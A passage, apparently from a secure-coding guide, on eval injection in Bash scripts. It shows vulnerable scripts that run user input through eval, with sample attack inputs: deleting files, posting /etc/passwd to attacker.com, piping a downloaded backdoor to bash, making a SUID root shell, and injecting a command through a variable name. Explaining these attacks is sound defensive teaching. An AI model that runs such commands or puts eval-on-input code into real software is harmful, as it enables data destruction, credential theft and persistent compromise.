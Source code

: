 # Dangerous: eval executes arbitrary code
eval "$user_input"
\`\`\`

**Attack:**
\`\`\`bash
# Attacker provides malicious input
./vulnerable-script.sh 'rm -rf /tmp/*'
# Executes: rm -rf /tmp/*

# Or worse - exfiltrate data
./vulnerable-script.sh 'curl -X POST -d @/etc/passwd https://attacker.com/collect'

# Or install backdoor
./vulnerable-script.sh 'curl https://attacker.com/backdoor.sh | bash'

# Or create SUID shell
./vulnerable-script.sh 'cp /bin/bash /tmp/rootshell; chmod u+s /tmp/rootshell'
\`\`\`

**Attack Example 2: Variable Name Injection**

\`\`\`bash
# Vulnerable script - seems safe but isn't!
#!/bin/bash
set -euo pipefail

# User provides variable name and value
var_name="$1"
var_value="$2"

# Attempt to set variable dynamically - DANGEROUS!
eval "$var_name='$var_value'"

echo "Variable $var_name has been set"
\`\`\`

**Attack:**
\`\`\`bash
# Attacker injects command via variable name
./vulnerable-script.sh 'x=$(rm -rf /important/data)' 'ignored'

